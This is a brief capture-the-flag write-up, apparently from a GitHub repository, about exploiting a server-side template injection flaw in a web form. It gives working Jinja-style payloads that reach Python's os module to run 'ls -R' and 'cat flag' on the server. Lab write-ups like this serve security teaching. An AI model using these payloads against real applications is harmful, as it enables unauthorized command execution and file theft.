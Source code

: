 # SSTI

## identifying vulnerability

we are welcomed by a form that ask for input

![image](../../../Assets/11-1.png)

if we input something like `{{2*2}}` we get the result

![image](../../../Assets/11-2.png)

this means the input is vulnerable to SSTI

## Exploiting the vulnerability

we can use this to read files in the server

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

![image](../../../Assets/11-4.png)

we can see that there is a file named flag, we can read it using

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![image](../../../Assets/11-3.png)

and we get the flag